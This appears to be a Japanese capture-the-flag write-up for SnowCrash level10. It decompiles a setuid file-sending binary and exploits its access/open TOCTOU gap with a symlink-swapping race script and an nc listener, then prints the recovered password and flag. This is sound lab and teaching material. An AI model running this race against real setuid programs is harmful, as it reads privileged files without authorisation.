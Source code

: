 ## ~に存在するファイルを確認
```sh
ls -l
total 16
-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
-rw-------  1 flag10 flag10     26 Mar  5  2016 token
```

## ghidraでdisassする

```c
void main(int ac, char **argv)

{
  char *__cp;
  uint16_t uVar1;
  int iVar2;
  int iVar3;
  ssize_t sVar4;
  size_t __n;
  int *piVar5;
  char *file_name;
  int in_GS_OFFSET;
  undefined local_1024 [4096];
  sockaddr local_24;

  if (ac < 3) {
    printf("%s file host\n\tsends file to host if you have access to it\n",*argv);
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  file_name = (char *)argv[1];
  __cp = (char *)argv[2];

  iVar2 = access((char *)argv[1],R_OK);
  if (iVar2 == 0) {
    printf("Connecting to %s:6969 .. ",__cp);
    fflush(stdout);
    iVar2 = socket(2,1,0);
    local_24.sa_data[2] = '\0';
    local_24.sa_data[3] = '\0';
    local_24.sa_data[4] = '\0';
    local_24.sa_data[5] = '\0';
    local_24.sa_data[6] = '\0';
    local_24.sa_data[7] = '\0';
    local_24.sa_data[8] = '\0';
    local_24.sa_data[9] = '\0';
    local_24.sa_data[10] = '\0';
    local_24.sa_data[0xb] = '\0';
    local_24.sa_data[0xc] = '\0';
    local_24.sa_data[0xd] = '\0';
    local_24.sa_family = 2;
    local_24.sa_data[0] = '\0';
    local_24.sa_data[1] = '\0';
    local_24.sa_data._2_4_ = inet_addr(__cp);
    uVar1 = htons(0x1b39);
    local_24.sa_data._0_2_ = uVar1;
    iVar3 = connect(iVar2,&local_24, 0x10);
    if (iVar3 == -1) {
      printf("Unable to connect to host %s\n",__cp);
                    /* WARNING: Subroutine does not return */
      exit(1);
    }
    sVar4 = write(iVar2,".*( )*.\n",8);
    if (sVar4 == -1) {
      printf("Unable to write banner to host %s\n",__cp);
                    /* WARNING: Subroutine does not return */
      exit(1);
    }
    printf("Connected!\nSending file .. ");
    fflush(stdout);
    iVar3 = open(file_name,O_RDONLY);
    if (iVar3 == -1) {
      puts("Damn. Unable to open file");
                    /* WARNING: Subroutine does not return */
      exit(1);
    }
    __n = read(iVar3,local_1024,0x1000);
    if (__n == 0xffffffff) {
      piVar5 = __errno_location();
      file_name = strerror(*piVar5);
      printf("Unable to read from file: %s\n",file_name);
                    /* WARNING: Subroutine does not return */
      exit(1);
    }
    write(iVar2,local_1024,__n);
    puts("wrote file!");
  }
  else {
    printf("You don\'t have access to %s\n",file_name);
  }

  return;
}
```
## 関数のポイント
`access((char *)argv[1],R_OK);` は実ユーザーでファイル読み取り権限を確認するため、`level10`ユーザーが`token`を引数に渡すとでエラーになる。
一方、`open(file_name,O_RDONLY);` は実効ユーザーである`flag10` の権限でファイルアクセス権限を確認する。
したがって、`access((char *)argv[1],R_OK);`をうまく突破すれば`token`の中身を確認することができる。

`TOCTOU`というのがある。チェックと使用タイミングのズレがあると問題になる。つまり、`open` と`access` の間に脆弱性がある。
https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use
## エクスプロイト

### シンボリックリンクを操作するスクリプト
１つ目のスクリプトは、実ユーザー権限がある`/tmp/sym_token`を読み込ませて、`access`関数を突破する。
その後、`read`関数の前までに`/tmp/sym_token` と`token`をシンボリックリンクし、`token`を`write`する。

```sh
echo '#!/bin/bash' > /tmp/script
echo 'while true; do' >> /tmp/script
echo '> /tmp/sym_token' >> /tmp/script
echo './level10 /tmp/sym_token  127.0.0.1 &' >> /tmp/script
echo 'ln -sf /home/user/level10/token /tmp/sym_token' >> /tmp/script
echo 'rm -f /tmp/sym_token' >> /tmp/script
echo 'done' >> /tmp/script

chmod +x /tmp/script
```

### 受信した文字列をファイルに保存するスクリプト
```sh
echo '#!/bin/bash' > /tmp/script1
echo '> /tmp/pw' >> /tmp/script1
echo 'while true; do' >> /tmp/script1
echo 'nc -l 6969 >> /tmp/pw' >> /tmp/script1
echo 'done' >> /tmp/script1

chmod +x /tmp/script1
```
### 実行
タイミングを完璧に制御できないため、試行回数でカバーする必要がある。
```sh
/tmp/script > /dev/null 2>&1 &
/tmp/script1 > /dev/null 2>&1 &

# 少し経ったらプロセスを終了する
pkill -f /tmp/script
pkill -f /tmp/script1
```

### 確認する
```sh
grep -v '\.\*\( \)*' /tmp/pw
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
```

```sh
level10@SnowCrash:~$ su flag10
Password:
Don't forget to launch getflag !
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```
